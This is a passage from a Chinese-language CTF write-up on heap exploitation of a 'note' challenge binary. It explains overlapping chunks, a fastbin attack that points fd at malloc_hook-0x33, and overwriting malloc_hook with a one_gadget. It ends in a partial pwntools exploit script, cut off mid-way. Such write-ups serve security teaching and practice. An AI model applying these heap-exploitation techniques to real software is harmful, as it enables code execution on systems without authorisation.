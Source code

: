 就可以将overlap的chunk释放到fastbin中。然后通过申请0xf1的chunk时写入，覆盖fastbin的fd指针为 `malloc_hook-0x33` ，当前内存布局如下。

[![](https://p0.ssl.qhimg.com/t019b4f345edd135d44.png)](https://p0.ssl.qhimg.com/t019b4f345edd135d44.png)

查看fastbin。

[![](https://p0.ssl.qhimg.com/t018eb07b24541d41b9.png)](https://p0.ssl.qhimg.com/t018eb07b24541d41b9.png)

这个时候的主要问题就是三个指针都用掉了，要清出两个指针进行fastbin attack，并且释放不能进入0x71的fastbin。

[![](https://p1.ssl.qhimg.com/t01b0476558b0f407cb.png)](https://p1.ssl.qhimg.com/t01b0476558b0f407cb.png)

然后就是将malloc_hook盖为one_gadget。

[![](https://p3.ssl.qhimg.com/t01b5cc96c32fd36478.png)](https://p3.ssl.qhimg.com/t01b5cc96c32fd36478.png)

使用第一个one_gaget，调试发现，执行到one_gadget时，r15 = 0 , r12 = size。

[![](https://p4.ssl.qhimg.com/t016dfc17adec03f5c4.png)](https://p4.ssl.qhimg.com/t016dfc17adec03f5c4.png)

所以，calloc(0)即满足条件。

[![](https://p3.ssl.qhimg.com/t01ce1b6295134fb4f8.png)](https://p3.ssl.qhimg.com/t01ce1b6295134fb4f8.png)

### <a class="reference-link" name="exp"></a>exp

```
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
sa = lambda s,n : sh.sendafter(s,n)
sla = lambda s,n : sh.sendlineafter(s,n)
sl = lambda s : sh.sendline(s)
sd = lambda s : sh.send(s)
rc = lambda n : sh.recv(n)
ru = lambda s : sh.recvuntil(s)
ti = lambda : sh.interactive()

def dbg(addr):
    sh.attach(sh,'b *0x`{``}`\nc\n'.format(addr))

def add(ch,c='a'):
    sla('choice:','1')
    sla('Large.',str(ch))
    sla('Content:',c)
def delete(idx):
    sla('choice:','2')
    sla('Index:',str(idx))
def show(idx):
    sla('choice:','3')
    sla('Index:',str(idx))
# add size 1-&gt;0x68 2-&gt;0xe8 else 0x21
sh = process('./note')
#sh = remote('10.12.153.11',58011)
libc = ELF('/opt/libs/2.31-0ubuntu9.2_amd64/libc-2.31.so')

for i in range(7):#calloc(0xe8) fill tcache
    add(2)
    delete(0)

add(2,'\x00'*0x80)#0
add(1,'a'*0x20+p64(0xb0)+p64(0x70-0x30))#1  fake pre_sz &amp; sz
delete(0)#ustbin
```